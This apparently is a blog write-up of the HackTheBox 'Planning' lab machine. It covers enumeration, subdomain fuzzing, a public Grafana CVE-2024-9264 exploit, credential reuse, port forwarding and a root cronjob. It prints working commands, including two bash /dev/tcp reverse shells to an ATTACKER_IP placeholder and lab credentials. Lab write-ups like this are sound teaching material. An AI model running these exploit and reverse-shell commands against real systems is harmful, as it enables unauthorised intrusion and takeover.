 ```yaml
---
layout: post
title: "HTB Planning Writeup"
date: 2025-09-14 13:18:55 -0400
categories: hackthebox HTB-easy
tags: hacking CTF HTB HTB-easy port-forwarding linux
---
```

## Introduction
This is an easy Linux machine on [HackTheBox](https://app.hackthebox.com/machines/Planning){:target="_blank"}{:rel="noopener noreferrer"}. We're given credentials at the beginning that are useful later 

```
admin:0D5oT70Fq13EvB5r
```

![htb-planning-pwn](images/HTB-planning/htb-planning-pwn.png)

## Enumeration
### Port Scan
As always we need to find accessible services with a port scan
```bash
rustscan -a <MACHINE_IP> -- -A -sCV
```

```bash
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
RustScan: Where scanning meets swagging. 😎

[~] The config file is expected to be at "/home/kali/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.10.11.68:22
Open 10.10.11.68:80
```

```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 62:ff:f6:d4:57:88:05:ad:f4:d3:de:5b:9b:f8:50:f1 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMv/TbRhuPIAz+BOq4x+61TDVtlp0CfnTA2y6mk03/g2CffQmx8EL/uYKHNYNdnkO7MO3DXpUbQGq1k2H6mP6Fg=
|   256 4c:ce:7d:5c:fb:2d:a0:9e:9f:bd:f5:5c:5e:61:50:8a (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKpJkWOBF3N5HVlTJhPDWhOeW+p9G7f2E9JnYIhKs6R0
80/tcp open  http    syn-ack ttl 63 nginx 1.24.0 (Ubuntu)
|_http-title: Edukate - Online Education Website
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-server-header: nginx/1.24.0 (Ubuntu)
```

Let's add the domain to our `/etc/hosts` file
```
<MACHINE_IP> planning.htb
```
### Subdomain
After my initial scans I didn't find anything of interest but let's check the page source.
```html
<!-- Formulario con método GET -->
<!-- snip -->
<!-- Mostrar los resultados debajo de la barra de búsqueda -->
```

Some comments are in **Spanish!**  Using a Spanish wordlist revealed a new subdomain!
```bash
wfuzz -c -t 50 -u http://planning.htb -H 'Host: FUZZ.planning.htb' -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-spanish.txt --hw 12
```

```bash
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://planning.htb/
Total requests: 5370

=====================================================================
ID           Response   Lines    Word       Chars       Payload                       
=====================================================================

000002556:   302        2 L      2 W        29 Ch       "grafana"                     

Total time: 5.497129
Processed Requests: 5370
Filtered Requests: 5369
Requests/sec.: 976.8734
```

Let's add this to our `/etc/hosts` file
```
<MACHINE_IP> planning.htb grafana.htb
```

## Initial Foothold
Visiting `grafana.planning.htb` and using the credentials provided at the beginning, we can access the **admin dashboard**

```
admin:0D5oT70Fq13EvB5r
```

![htb-planning-grafana-version](images/HTB-planning/htb-planning-grafana-version.png)

This version is vulnerable to **authenticated remote code execution** and there is a [public exploit](https://github.com/nollium/CVE-2024-9264){:target="_blank"}{:rel="noopener noreferrer"} readily available. 

Let's download the repo and install the requirements
```bash
git clone https://github.com/nollium/CVE-2024-9264.git
```

```bash
pip3 install -r requirements.txt
```

Now we can send a [reverse shell](https://www.revshells.com/){:target="_blank"}{:rel="noopener noreferrer"}
```bash
nc -lvnp 4444 # listener on the attacking machine
```

```bash
python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c '/bin/bash -c "/bin/bash -i >& /dev/tcp/<ATTACKER_IP>/4444 0>&1"' http://grafana.planning.htb
```
- notice the `/bin/bash -c` prepended before the revshell

![htb-planning-foothold](images/HTB-planning/htb-planning-foothold.png)
## user.txt
It looks like we're `root` in a docker container but we want to access the server hosting it. Reading the environment variables we can find a username and password

```bash
root@7ce659d667d7:~# env | grep -i admin
env | grep -i admin
GF_SECURITY_ADMIN_PASSWORD=<PASSWORD-REDACTED>
GF_SECURITY_ADMIN_USER=enzo
```

We can reuse these credentials over `ssh` and grab the first flag
```bash
ssh enzo@planning.htb
```

![htb-planning-user-txt](images/HTB-planning/htb-planning-user-txt.png)

## root.txt
There is a new internal service running on port 8000
```bash
enzo@planning:~$ netstat -tulnp
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:35487         0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.54:53           0.0.0.0:*               LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
udp        0      0 127.0.0.54:53           0.0.0.0:*                           -
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -
```

We can forward port 8000 **on the server** to port 9999 on **our machine** with the command
```bash
ssh -L 9999:127.0.0.1:8000 enzo@planning.htb
```

Visiting the page requires credentials

![htb-planning-basic-auth](images/HTB-planning/htb-planning-basic-auth.png)

A password can be found in `/opt/crontabs/crontab.db`
```bash
enzo@planning:~$ cat /opt/crontabs/crontab.db 
{"name":"Grafana backup","command":"/usr/bin/docker save root_grafana -o /var/backups/grafana.tar && /usr/bin/gzip /var/backups/grafana.tar && zip -P <PASSWORD-REDACTED> /var/backups/grafana.tar.gz.zip /var/backups/grafana.tar.gz && rm /var/backups/grafana.tar.gz","schedule":"@daily","stopped":false,"timestamp":"Fri Feb 28 2025 20:36:23 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740774983276,"saved":false,"_id":"GTI22PpoJNtRKg0W"}
{"name":"Cleanup","command":"/root/scripts/cleanup.sh","schedule":"* * * * *","stopped":false,"timestamp":"Sat Mar 01 2025 17:15:09 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740849309992,"saved":false,"_id":"gNIRXh1WIc9K7BYX"}
```

Using the username `root` and the newly discovered password we can access the `Cronjobs` service on the forwarded port

![htb-planning-cronjobs](images/HTB-planning/htb-planning-cronjobs.png)

Through this interface we can run any command as `root`! Let's add a new cronjob that triggers a `root` reverse shell

```bash
# reverse shell payload
/bin/bash -c '/bin/bash -i >& /dev/tcp/<ATTACKER_IP>/4444 0>&1'
```

![htb-planning-new-job](images/HTB-planning/htb-planning-new-job.png)

Setup a listener to catch the reverse shell and click `Run now` to execute our command immediately
```bash
nc -lvnp 4444 # listener on attacking machine
```

![htb-planning-root-txt](images/HTB-planning/htb-planning-root-txt.png)
## Recap
By enumerating subdomains with a **Spanish wordlist** we find an outdated service vulnerable to **authenticated remote code execution.** Using the credentials provided to us gives a foothold into the system. **Reused credentials** found in the **environment variables** lets us `ssh` in as the `enzo` user. **Forwarding an internal port** gives us access to a `Cronjob` web interface where we can **run arbitrary commands as root,** giving us a `root` shell!

